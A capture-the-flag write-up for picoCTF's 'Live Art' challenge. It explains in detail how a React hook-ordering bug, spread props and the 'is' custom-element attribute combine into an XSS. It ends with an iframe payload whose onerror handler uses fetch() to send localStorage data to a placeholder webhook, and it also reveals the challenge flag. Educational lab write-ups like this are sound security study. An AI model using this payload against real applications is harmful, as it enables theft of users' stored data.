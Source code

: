 # Live Art

### Problem 

You must exploit the React application via XSS to obtain the flag. 

### Solution

This challenge requires a significant amount of prerequisite knowledge. However, nearly all the teams that solved this challenge did not know how their exploit worked. In this writeup I will explain exactly how the exploit works, on top of how to solve it. 

To start off, we must know that React is inherently very resistant to XSS attacks. React automatically escapes text provided such that even if you do manage to inject script content, the page will not run it and will harmlessly display a `<script>`.

Upon inspecting the source code, we can see that there are 2 possible vectors to XSS this website. The first is through the art viewing page, where you can impersonate a peer and send your own image src, thus being able to freely control the `src` attribute of an image. However, any attempts to escape out of the `src` attribute will result in utter failure, thanks to the way React works. The second is through the error page. On this page you are able to control the content of a text area as well as the `href` attribute of an anchor tag. Directly attempting to XSS through a link will result in more failures (I tried). 

Don't give up just yet! If you look at our client code, we notice that the error component is called inside the drawing component. Which seems to be placed as a child inside of the `WrapComponentError` component along with it's fellow `Viewer` component. 

Now this design is quite a strange choice. Why does the creator use the `ErrorPage` component inside the `Drawing` page when the `WrapComponentError` automatically redirects when the `Viewer` component errors? 

If we analyze the code a little bit, we can map out the role the error page plays here: 
```tsx
import { Viewer } from "../viewer";
import { ErrorPage } from "../error";
const getWrappedError = WrapComponentError(ErrorPage)
const getWrappedViewer = WrapComponentError(Viewer);
const view = bigEnough
        ? getWrappedViewer({ image })
        : getWrappedError({ error: "Please make your window bigger" });
return (
    <div>
        { view }
    </div>
);
```
This code appears to check if the screen size is big enough. If it is big enough, the page will render in the viewer, otherwise it will render the error component. You can verify this by dragging the screen size around on this page. 

Do you see the problem in this code? Probably not. It would take an extremely experienced React developer to see the bug present here. And I mean *significantly* experienced because even I didn't catch it until much later on. The people who solved this challenge merely found it by pure luck with a little guessing. 

You see, the return statement in the function is something called `JSX` (or in this case `TSX`, because it is TypeScript), which is a syntax extension to JS made by React. This syntax extension allows developers to return HTML-esque expressions in their functions, which React picks up and renders. I won't go into too much detail about that because you can read the React docs yourself, but the part I want to focus on is how React handles JSX. 

When you have a JSX expression like 
```jsx
return (<p><Cool/></p>);

function Cool() {
    return (<p>{cookieCount}</p>)
}
```
React calls the `createElement` function to construct the element, then calls `Cool` to retrieve the JSX there, which again calls `createElement` and is fed into the virtual DOM tree. `Cool` is considered a child element and is rendered under the jurisdiction of it's parent. 

Do you see the problem now? No? 
```tsx
const view = bigEnough
    ? getWrappedViewer({ image })
    : getWrappedError({ error: "Please make your window bigger" });
```

Instead of calling it as a JSX component, the author calls the function directly. This means whatever JSX is in `getWrappedError` or `getWrappedView` is considered a part of the `_Drawing` component, and not a child as it should be. 

Now this looks like a pretty useless bug. But it is time for us to unveil part 2 of obscure required knowledge for this challenge: hooks!

[Hooks](https://reactjs.org/docs/hooks-intro.html) and states are an integral part of React. Consider a state like a current status of any variable. Hooks can be considered wrappers around this. When the state of something changes, the component gets rerendered. This is very useful when you want to update anything on a page and don't want to trigger an entire reload. This explanation is not extremely accurate but it will do for our purposes. 

Another thing to consider is that hooks attach themselves to the component that calls it. For example, the `_Drawing` creates an `image` hook. Internally, React creates a queue for this component, and places all hooks inside this queue. If the hooks are used as intended, this is completely fine. However, as we can see the JSX was not used as intended, and this causes a pretty severe vulnerability. 

Revisiting our live art code, we can see that our `ErrorPage` creates an hook: 
```ts
const params = useHashParams<{ error: string, returnTo: string }>();
//which in turn calls: 
const [params, setParams] = React.useState(getHashParams<T>());
```
Uh-oh! Stinky! Oopsie Woopsie! A little bit of a fcky wucky! A wittle fcko boingo! 

Our code here creates a hook, and if you recall, our ErrorPage was treated as a part of the `_Drawing` page. This means that the hook is now attached to the `_Drawing` component instead of the `ErrorPage` component and placed in the hook queue for `_Drawing`. My stinky-meter is rising. 

Let's take a look at `Viewer`. We are greeted with 
```ts
const [dimensions, updateDimensions] = React.useReducer(//yada yada)
```
Now `useReducer` is another form of a hook. Uh-oh again! This hook is also placed in the former-parent's queue! Moreover, when React accesses the state, it might access the wrong one due to these states being accessed via queue index! My stinky-meter is not doing very well. 

Now basically, if we manage to do a little trickery, we can fool React into using `params` hook from the `ErrorPage` as the `dimensions` of the `Viewer`. Quite stinky indeed.

Now if we scroll down a little...
```tsx
return (
    <div>
        <h1>Viewing</h1>
        <img src={props.image} { ...dimensions }/>
    </div>
)
```
I am heartbroken. The author used spread syntax here. What spread syntax (`...`) does is that it "deflates" the object. For example, if `dimensions` was `{test: 'hi'}`, the code is similar to: `<img src={props.image} test={'hi'}/>`. My stinky meter has shattered. Now that's dangerous, don't ya think?

Now we kind of know how to do pwn now: 
1. Start window at < 600px wide and attach an error hash payload (e.g. `#test=hi`) to the link. We want the error page to be triggered first so the hook is placed into the queue. 
2. Increase page width. We can only fire the `resize` event once. If we do it more than once React will place the queue properly. We want to make sure that when the hook initializes in `Viewer` it accesses the incorrect state in the queue which contains our malicious payload. 
3. PWN!

Now that we can inject anything we want into that image, we can try injecting an `onerror` attribute along with a faulty `src` to trigger the JS. However, when we try this, the resize causes the `onerror` to simply vanish. 

Why does this happen? As it turns out, React does not recognize `onerror` as an attribute. `onError` is a valid attribute for this React object, but if we try that, it also disappears. It seems like React expects a `Function` type and not a `string`. How can we get React to insert a valid onerror HTML then?

Onto part 3 of obscure React/HTML knowledge! This is the custom component clue provided. When an HTML element has an `is` attribute, it is defined as a custom element. Taking a closer look at how React renders things internally, it appears that it looks at `isCustomComponentTag`, and if it exists, renders whatever you want it to without giving you a hassle. Apparently, React bails on handling props because it assumes that, since you are using a custom element, you will be handling the props yourself ([citation](https://ethanwu.dev/blog/2021/07/14/redpwn-ctf-2021-md-bin/)). 

This means that if you attach `&is=` to your URL, the JS should run. Now we basically have our solution: 
1. Open popup/iframe to `http://localhost:4000/drawing/wiudsaadwas#error={do_stuff_here}&src=stuff&is=` with a size of < 600px
2. Set size to 601 px
3. Win

To do this, we can use the following payload: 
```html
<body>
    <iframe id="iframe" src="http://localhost:4000/drawing/syahdas#onerror=fetch('WEBHOOK',{method:'POST',headers:[['Content-Type','application/json']],body:JSON.stringify({content:window.localStorage.getItem('username')})})&src=urmom&is=" width="599"></iframe>
    <script>
        setTimeout(function() {
            document.getElementById("iframe").width = 601;
        }, 2000)
    </script>
</body>
```
This code will open an iframe to the page at 599 px, set iframe to 601 px afer 2 seconds, and the code on the page will execute, sending the localStorage content to us through a webhook. 

To PWN successfully, you will need to host this on your own HTTP server and then send the link through the XSS submission page. 

Yay!

Our flag is then `picoCTF{beam_me_up_reacty_eb269a4c}`

P.S. I solved this challenge after it was finished

